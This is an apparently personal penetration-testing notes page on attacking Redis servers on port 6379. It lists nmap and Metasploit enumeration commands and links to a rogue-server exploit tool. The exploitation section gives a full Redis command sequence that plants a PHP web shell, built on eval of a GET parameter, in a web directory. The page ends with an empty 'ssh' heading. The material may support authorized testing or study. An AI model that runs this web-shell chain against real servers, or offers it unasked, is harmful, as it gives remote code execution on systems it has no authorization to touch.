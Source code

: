 ```yaml
---
id: services
aliases: []
tags: []
---
```

# Services 
[[#Redis /6379]]
  
  
## Redis /6379
> Redis is an open source, in-memory data structure store, used as a database, cache and message broker.

### Enumeration:    
```bash
   nmap --script redis-info -sV -p 6379 <IP>
   msf> use auxiliary/scanner/redis/redis_server
i ```
### Commands:
> [Cheat-Sheet](https://lzone.de/#/LZone%20Cheat%20Sheets/DevOps%20Services/Redis)

### Exploitation
1. **Easy**:
> [!IMPORTANT] Must have rights to access the dir / Must know the web root dir
```redis 
CONFIG SET
1. Change database file location
CONFIG SET dir /var/www/uploads/
2. Change database file name
CONFIG SET dbfilename sh.php
3. Inject your shell payload into database
SET PAYLOAD '<?php eval($_GET[0]);?>'
4. Save database to file
BGSAVE
```
2. **[Redis-rogue-server.py](https://github.com/n0b0dyCN/redis-rogue-server)** 
> Sets a redis server which operates as a master and sends commands and writes to files to target with partial or total  
>> [!IMPORTANT] Compile the .so on your machine
3. **ssh** :
> 


 

   

